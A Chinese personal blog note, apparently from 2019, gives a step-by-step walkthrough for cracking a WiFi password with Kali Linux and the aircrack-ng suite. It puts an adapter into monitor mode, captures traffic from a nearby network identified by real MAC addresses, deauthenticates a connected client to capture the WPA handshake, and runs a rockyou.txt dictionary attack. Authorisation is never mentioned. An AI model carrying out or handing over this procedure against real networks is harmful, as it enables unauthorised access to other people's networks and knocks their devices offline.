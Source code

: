 ```yaml
---
title: 暴力法破解wifi笔记
categories:
- wifi破解
tags:
- wifi破解
updated: 2019-05-09
---
```




 

首先你得有一个外置网卡，然后用虚拟机进行破解

所需要的设备：	kali linux  外置网卡



首先要将虚拟机设置为：桥接模式

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_01.png" />

然后就是将插入的外接网卡设置为：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_02.png" />

然后 ifconfig看下：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_03.png" />

接着就进行混合：

并将wlan0网卡开启混杂模式： 

```
airmon-ng start wlan0
#提示要杀掉一些进程，根据提示进行即可
airmon-ng check kill 
airmon-ng start wlan0
```

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_04.png" />

开始抓包：

首先，查看附近WiFi热点，使用命令`airodump-ng wlan0mon` 

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_05.png" />

选取其中信号较好的WiFi热点，在这里我们选取一个目标(A4-306 2.4G)

使用airodump-ng对选取的WiFi热点进行cap监听与获取： 

```
airodump-ng -c 6 --bssid 88:25:93:60:C0:D9  -w A4-3062.4G wlan0mon（注意这个位置不能有空格，哪怕原wifi名字上有，这个地方也不能有）
 
-c 通道值 WiFi热点所对应的CH值(上图中可看到)
--bssid 需要破解WiFi的MAC值
-w cap文件名
wlan0mon 启用混杂模式的网卡名 
```

这个时候看到有12个设备进行了连接，选取一个为75-D7的进行抓包：（需要一直开启）

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_06.png" />

使用airodump-ng对选取的WiFi热点进行cap监听与获取： （再启动一个命令行）

```
aireplay-ng -0 2 -c E8:4E:06:21:75:D7  -a 88:25:93:60:C0:D9 wlanmon
 
-0 death模式，2为发送次数
-c 你所选择要断网操作的客户机MAC
-a WiFi热点MAC
```

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_07.png" />

有时候一次抓不到，多试几次，我试了三次之后，抓到了：

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_08.png" />

这个时候监听就可以停止了：

然后就是跑包了：

我们直接使用kali自带的，在文件目录中，需要解压（这里不做演示）

```
#首先ls查看当前目录所产生的握手包
aircrack-ng -w rockyou.txt A4-3062.4G-02.cap
w代表字典
接着你的包名称
```

然后就等结果吧！（其实如果wifi密码复杂的话，基本上很难跑出来）

<img src="{{ site.url }}/assets//blog_images/暴力破解wifi_09.png" />

这个只是一个笔记，现在暴力破解的太难了，wifi密码稍微一复杂，基本就无望。



